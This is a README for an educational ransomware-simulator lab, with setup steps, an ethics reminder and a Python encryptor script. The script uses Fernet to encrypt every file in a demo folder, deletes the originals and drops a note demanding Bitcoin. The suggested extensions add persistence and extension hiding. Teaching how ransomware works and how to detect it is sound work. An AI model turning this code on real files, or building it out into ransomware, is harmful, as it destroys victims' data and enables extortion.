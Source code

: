 # Webdeves Ethical Hacking Project (Team Evil)
# Ransomware Simulator Project (Ethical Hacking Lab)

## Objective
Simulate a ransomware attack in a controlled environment to understand how file encryption and ransom messages work. This project is strictly for **educational purposes** and should only be executed inside **virtual machines** on **test files** but will be used to build your confidence as an ethical hacker.


## Project Structure
```
ransomware_simulator/
│
├── encryptor.py            # Script to encrypt files and drop ransom note
├── decryptor.py            # Script to decrypt files with a key
├── key.key                 # Generated encryption key
├── ransom_note.txt         # Template ransom message (used in script)
├── demo_files/             # Test files that will be encrypted
└── README.md               # Instructions and documentation
```

- Only run this in **virtual machines**.
- Use only the `demo_files/` folder with dummy/test files.
- Never target system folders or real documents.
- Understand the legal and ethical implications before testing.


## Getting Started

### Step 1: Setup Environment
- Python 3.7+
- Install dependencies:
```bash
pip install cryptography
```
- Create test files in `demo_files/` folder (e.g. `.txt`, `.docx`, `.jpg`)

### Step 2: Run Encryptor
```bash
python encryptor.py
```
This will:
- Encrypt all files in `demo_files/`
- Replace originals with `.enc` files
- Create a ransom note called `README.txt`

### Step 3: Decryption
You’ll use the `decryptor.py` script and the `key.key` file to recover the original files. This will simulate what happens when a victim "pays the ransom".

---

## decryptor.py (To be added)
You will load:
- Load the `key.key`
- Decrypt each `.enc` file in the folder
- Recreate the original files

## Learning Outcomes
- Understand how ransomware operates
- Learn file encryption/decryption using `cryptography`
- Explore defense mechanisms and detection strategies
- Discuss ethical and legal implications of malware simulation

---

## Extension Ideas
- Add a GUI popup with countdown timer
- Simulate file extension hiding
- Add basic persistence (autostart simulation)
- Build a basic ransomware detector script (blue team exercise)

---

## 📬 Submission Checklist
- [ ] `encryptor.py` script completed
- [ ] `decryptor.py` script created
- [ ] Test run and screenshot of encrypted files
- [ ] Report (1 page): What you learned + detection methods

---

## Ethics Reminder
This project is for educational cybersecurity use only. Misusing this knowledge is illegal and unethical. Respect privacy, security, and laws at all times.

## encryptor.py

from cryptography.fernet import Fernet
import os, glob

# Create and store encryption key
key = Fernet.generate_key()
with open("key.key", "wb") as f:
    f.write(key)

fernet = Fernet(key)

# Folder containing files to simulate encryption
folder = "demo_files/"
os.makedirs(folder, exist_ok=True)

# Encrypt all files in folder
for filepath in glob.glob(folder + "*"):
    if filepath.endswith(".enc") or filepath.endswith("README.txt"):
        continue
    with open(filepath, "rb") as f:
        data = f.read()
    encrypted = fernet.encrypt(data)
    with open(filepath + ".enc", "wb") as f:
        f.write(encrypted)
    os.remove(filepath)

# Drop ransom note
```bash
ransom_note = """
--- YOUR FILES HAVE BEEN ENCRYPTED ---
To recover your data, send 1 BTC to the following address:
1A2b3C4d5E6f7G8h9I0j
Then contact us with proof of payment.
You have 48 hours before your files are lost forever.
"""
```

with open(folder + "README.txt", "w") as f:
    f.write(ransom_note)

print("[+] Files encrypted. Ransom note dropped.")
